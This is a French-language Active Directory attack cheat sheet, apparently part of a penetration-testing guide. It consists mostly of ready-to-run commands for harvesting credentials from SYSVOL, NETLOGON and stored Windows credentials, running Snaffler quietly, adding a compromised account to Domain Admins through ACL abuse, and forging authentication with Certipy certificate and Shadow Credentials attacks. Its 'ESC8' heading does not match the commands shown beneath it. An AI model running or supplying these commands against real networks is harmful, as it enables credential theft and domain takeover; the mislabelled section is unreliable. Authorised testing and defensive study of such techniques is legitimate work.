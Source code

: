 ### Fichiers spécifiques à Active Directory
```powershell
# Vérifier les fichiers SYSVOL pour GPP passwords
Get-ChildItem -Path "\\$env:USERDNSDOMAIN\SYSVOL\$env:USERDNSDOMAIN\Policies\" -Recurse -Include *.xml | Select-String -Pattern "cpassword"

# Rechercher les fichiers NETLOGON
Get-ChildItem -Path "\\$env:USERDNSDOMAIN\NETLOGON\" -Recurse -Include *.ps1,*.bat,*.vbs | Select-String -Pattern "password|credential"
```
### Utilisation de Snaffler pour trouver des informations sensibles
```powershell
# Exécuter Snaffler pour trouver des informations sensibles
.\Snaffler.exe -s -o snaffler_results.txt

# Version plus discrète
.\Snaffler.exe -s -i C: -o C:\Users\Public\snaffler_results.txt
```
### Identifiants mis en cache
```powershell
# Vérifier les identifiants Windows stockés
cmdkey /list

# Utiliser les identifiants stockés
runas /savecred /user:DOMAIN\username "cmd.exe /c whoami > C:\Users\Public\whoami.txt"

# Vérifier les sessions RDP sauvegardées
reg query "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Servers" /s
```
## Techniques d'élévation de privilèges spécifiques à AD
### Exploitation des ACLs vulnérables
```powershell
# Vérifier les droits GenericAll
Get-DomainObjectACL -Identity "Groupe Cible" -ResolveGUIDs | Where-Object {$_.ActiveDirectoryRights -match "GenericAll"} | Format-List

# Ajouter un utilisateur à un groupe privilégié
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'utilisateur_compromis'

# Vérifier l'appartenance au groupe
Get-DomainGroupMember -Identity 'Domain Admins'
```
### Exploitation des certificats (ESC8)
```bash
# Énumérer les templates de certificats vulnérables
certipy find -u user@domain.local -p 'Password123!' -dc-ip 10.10.10.10

# Demander un certificat vulnérable
certipy req -u user@domain.local -p 'Password123!' -ca 'CA-NAME' -template 'Vulnerable-Template' -dc-ip 10.10.10.10

# Utiliser le certificat pour l'authentification
certipy auth -pfx user.pfx -dc-ip 10.10.10.10
```
### Shadow Credentials
```bash
# Ajouter une clé DACL et générer un certificat
certipy shadow auto -u user@domain.local -p 'Password123!' -account target_user -dc-ip 10.10.10.10
```